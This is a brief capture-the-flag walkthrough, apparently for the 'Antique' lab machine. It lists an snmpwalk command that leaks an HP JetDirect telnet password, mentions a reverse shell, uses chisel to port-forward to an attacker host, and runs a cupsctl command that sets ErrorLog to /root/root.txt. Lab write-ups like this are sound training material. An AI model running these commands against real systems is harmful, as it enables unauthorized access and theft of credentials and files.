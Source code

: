 antique
---

## Steps

1. nmap TCP UDP

TCP: 23

UDP: 161

2. SNMP Exploit

Connecting via telnet, we see that its running HP JetDirect, which has a vulnerability that allows passwords to be exfiltrated through SNMP

`snmpwalk -v 2c -c public <host> .1.3.6.1.4.1.11.2.3.9.1.1.13.0`

Decode the hex, and you get the password for telnet

3. telnet exec reverse shell

Once in telnet, you can exec commands, and read the user flag, or create a reverse shell connection

## Root Flag

1. Port Forwarding

We see a service running on port 631

Use `chisel` to port forward

```
Attacker
sudo ./chisel server -p 8000 --reverse

Victim
./chisel client <attacker>:8000 R:631:127.0.0.1:631
```

2. CUPS vulnerability

Under `Administrator->View Error Log`, it reads whatever file is set as ErrorLog at the back end

`cupsctl ErrorLog="/root/root.txt"`
